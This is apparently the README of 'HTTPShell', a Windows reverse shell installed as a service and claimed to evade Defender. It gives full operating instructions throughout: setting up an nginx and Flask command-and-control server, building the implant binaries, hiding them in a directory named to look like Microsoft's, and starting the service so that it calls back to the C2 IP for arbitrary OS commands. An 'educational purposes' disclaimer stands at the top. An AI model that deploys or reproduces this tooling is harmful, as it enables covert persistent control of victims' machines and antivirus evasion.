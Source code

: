# HTTPShell
HTTPS Reverse shell. Installed as a service on Windows. Bypasses Defender as of 01/15/2025.

FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY! 

Requirements and preperation:
------------------
1. NGINX on the host: https://nginx.org/en/linux_packages.html 
2. python3 and venv on the host: https://virtualenv.pypa.io/en/latest/installation.html 
3. Back up the existing nginx.conf file.
4. Move the nginx.conf file from this repo into /etc/nginx/nginx.conf.
5. Create a key and certificate:
It's generally recommended to avoid self-signed certificates. Only do this for using in a test environment.
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:4096 -nodes -sha256
```
6. Place the pem file in /etc/nginx/cert/server.pem.
7. Create a virtual environment for the C2 server:
```
mkdir controlServer
python3 -m venv controlServer
cd controlServer
source bin/activate
pip3 install colorama flask
flask run
```
8. Run the nginx server:
```
service nginx start
```
9. Build docker container with dockerfile (dockerfile must be in current directory):
```
docker build .
```
10. Enter the container (find it with "docker ps -a"; should be at the top of the list):
```
docker exec -ti [container_name] /bin/bash
```
11. Exfiltrate the compiled binaries located in project directorys "InstallService" and "ServiceBinary" target/x86_64-pc-windows-gnu/debug/. I'll use
```
python3 -m http.server 80
```
then wget from host. You can create another container with "docker run" and mount folders. The HTTP server with python is my preferred method. These binaries should be:
```
windows_service_wrapper.exe
windows_Win32_Temp.dll
windows_Win32_Temp.exe
```

Creating the service on your target and running:
--------
This is a generic method. Use your own loaders/stagers to get the binaries on the host and run these commands.

1. Create the directory (this can be changed in the source code):
```
mkdir C:\programdata\MicrosoftW
```
2. Move the binaries and DLL into this directory.
3. As Administrator or with privileges allowing creation of services (Server Operators can start/stop service. Can not create them):
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe [C2 IP] [C2 Port; recommend 443] [service Binary Name] [service Binary Name] [desired timeout in seconds]
```
Example:
```
C:\programdata\MicrosoftW\windows_Win32_Temp.exe 172.16.0.5 443 myService myService 60
```
"service Binary Name" must be the same. Feel free to edit the source for yourself if you want to change this behavior.
4. Start the service (reboot target or use Administrator/Server Operator):
```
sc.exe start [service Binary Name]

OR with powershell

Start-Service [service Binary Name]
```

You should see a prompt in the flask server terminal. It expects the following options:
```
"Enter initialization option: "

Enter "1" to begin typing arbitrary OS commands such as "dir" or "powershell Get-Service".
Enter "2" to end the session and tell the service to "sleep". It will sleep in seconds equal to what you put in the command line arguments above. So 60 seconds if using the example. After the time expires, the service will attempt to reconnect to your server.
```

When entering "1" to get the command, you should see the following:
```
Enter command: 
```
